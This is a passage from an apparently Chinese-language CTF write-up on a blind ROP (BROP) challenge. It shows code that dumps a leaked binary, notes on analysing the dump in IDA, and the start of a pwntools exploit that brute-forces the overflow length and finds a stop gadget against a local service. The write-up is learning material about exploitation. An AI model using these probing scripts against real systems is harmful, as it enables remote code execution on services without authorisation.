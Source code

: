 ```python
        else:
            result += data
        addr += len(data)
    with open('code', 'wb') as f:
        f.write(result)
```

用上面的代码将整个文件的前面的部分输出到文件，使用`ida`反编译。

需要注意的是如果泄露出来的是 “”, 那说明我们遇到了`'\x00'`，因为 `puts` 是输出字符串，字符串是以`'\x00'`为终止符的。之后利用 `ida` 打开 `binary` 模式，首先在 `edit->segments->rebase program` 将程序的基地址改为 `0x400000`，然后找到偏移 `0x560` 处。

![image-20221211230812095](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202212112308364.png)

可以看到，`puts_got`的地址是`0x601018`。这个是没问题的，但`push`那个地址本来应该是`0`，但不知道怎么变成了`0A0A00`，有两个`0`变成`a`了，这个希望有师傅解答一下。

### exp

跟着`wiki`一步一步写的，最后也是有点乱

```python
from pwn import *
from LibcSearcher import *

# sh = remote('127.0.0.1', 10001)


def get_stack_length():
    length = 0
    while True:
        try:
            sh = remote('127.0.0.1', 10001)
            payload = length*b'a'
            sh.recvuntil('password?\n')
            sh.sendline(payload)
            output = sh.recv()
            sh.close()
            if output.startswith(b'No password'):
                length += 1
                continue
        except EOFError:
            sh.close()
            success('length:' + str(length-1))
            return length - 1


def get_stop_addr(length):
    addr = 0x400600
    i = 0
    while True:
        try:
            sh = remote('127.0.0.1', 10001)
            sh.recvuntil('password?\n')
            payload = b'a'*length + p64(addr)
            sh.sendline(payload)
            sh.recv()
            sh.close()
            success('one stop gadget:0x%x' % (addr))
            return addr
        except EOFError:
            info('no 0x%x' % addr)
            addr += 1
            sh.close()

```